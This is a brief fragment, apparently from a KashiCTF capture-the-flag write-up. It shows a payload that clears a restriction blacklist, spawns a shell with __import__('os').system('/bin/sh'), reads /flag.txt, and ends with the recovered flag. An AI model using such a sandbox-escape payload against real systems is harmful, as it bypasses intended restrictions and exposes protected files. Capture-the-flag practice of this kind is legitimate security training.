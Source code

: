 ```bash
BLACKLIST.clear()
__import__('os').system('/bin/sh')
cat /flag.txt
```
**Flag: KashiCTF{C4N_S71LL_CL3AR_8L4CKL15T_0EnNdgEz}**
